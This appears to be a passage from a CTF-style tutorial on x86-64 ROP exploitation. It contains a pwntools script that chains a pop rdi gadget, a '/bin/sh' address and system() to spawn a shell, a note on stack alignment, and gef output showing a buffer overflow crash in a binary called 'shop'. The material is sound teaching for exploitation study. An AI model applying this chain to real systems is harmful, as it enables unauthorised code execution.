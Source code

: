 ```python

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
    ret_gadget,        # Alignment gadget, if needed
    pop_rdi_gadget,    # pop rdi; ret
    bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
    system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
In this example:
- We utilize the `**pop rdi; ret**` gadget to set `**RDI**` to the address of `**"/bin/sh"**`.
- We directly jump to `**system()**` after setting `**RDI**`, with **system()**'s address in the chain.
- `**ret_gadget**` is used for alignment if the target environment requires it, which is more common in **x64** to ensure proper stack alignment before calling functions.

[**#Stack Alignment**]

**The x86-64 ABI** ensures that the **stack is 16-byte aligned** when a **call instruction** is executed. **LIBC**, to optimize performance, **uses SSE instructions** (like **movaps**) which require this alignment. If the stack isn't aligned properly (meaning **RSP** isn't a multiple of 16), calls to functions like **system** will fail in a **ROP chain**. To fix this, simply add a **ret gadget** before calling **system** in your ROP chain.

`gdb ./shop`

```
gef➤  r ←
Starting program: /home/kali/shop 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hey guys, I have prepared this little program to find out how much you know about me, since I have been your administrator for 2 years.
If you get all the questions right, you win a teddy bear and if you don't, you win a teddy bear and if you don't, you win trash
What is my favorite OS?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ←
Nope!!

Program received signal SIGSEGV, Segmentation fault. ←
0x000000000040147d in question_1 ()
```
```
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffdef8  →  0x00007fffffffe26f  →  "/home/kali/shop"
$rcx   : 0x00007ffff7ec34e0  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffdda8  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"
```